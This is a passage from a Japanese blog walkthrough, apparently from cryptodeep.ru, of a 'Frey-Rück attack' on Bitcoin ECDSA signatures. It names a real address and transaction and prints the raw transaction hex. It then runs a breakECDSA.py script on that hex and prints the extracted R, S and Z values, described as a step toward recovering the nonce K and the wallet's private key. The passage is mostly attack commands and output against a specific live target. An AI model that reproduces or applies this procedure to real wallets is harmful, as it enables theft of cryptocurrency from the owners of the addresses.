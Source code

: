 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>攻撃に備えて RawTX を準備する</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG" target="_blank" rel="noreferrer noopener">16DCNX182FdnKxsDqNt4k6AMZGb1BHDzgG</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/81384edbf408aa501814582663386ae25819c7b14c89d69e36250059f2399128
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-15-1024x97.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-771"/></figure>



<pre class="wp-block-code"><code>RawTX = 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-47-1024x243.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-975"/></figure>



<pre class="wp-block-code"><code>R = 0x03af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644
S = 0xa66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a
Z = 0xb6d536f025718d424e97ea40e0a86eb32f3f7d3673c4d0decb1a71466235d4de</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>
